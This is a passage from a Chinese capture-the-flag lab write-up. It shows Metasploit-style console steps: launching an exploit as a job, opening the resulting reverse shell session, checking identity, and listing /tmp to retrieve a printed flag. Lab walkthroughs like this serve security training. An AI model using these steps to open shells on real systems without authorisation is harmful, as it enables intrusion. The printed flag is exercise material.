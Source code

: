 ![再次查看exp可配置参数列表](img/再次查看exp可配置参数列表.png)

接下进行 getshell，如果攻击成功，查看打开的 reverse shell，进入会话后，发现无命令行交互提示信息，此时我们试一试 Bash 指令，可以发现我们已经打下了第一个靶标，查看其 `/tmp` 目录，成功得到 `flag1`。

```bash
# getshell
$ exlpoit -j

# 如果攻击成功，查看打开的 reverse shell
$ sessions -l

# 进入会话 1
$ sessions -i 1

# 无命令行交互提示信息，试一试 Bash 指令
$ id

# get flag-1
$ ls /tmp
```

```bash
得到flag1:flag-{bmha6cc7d3b-47d8-46dc-b9ba-1dc8a9b74dfe}
# 通过 CTRL-Z 将当前会话放到后台继续执行
```



### 智能化漏洞威胁监测、漏洞攻击和缓解修复
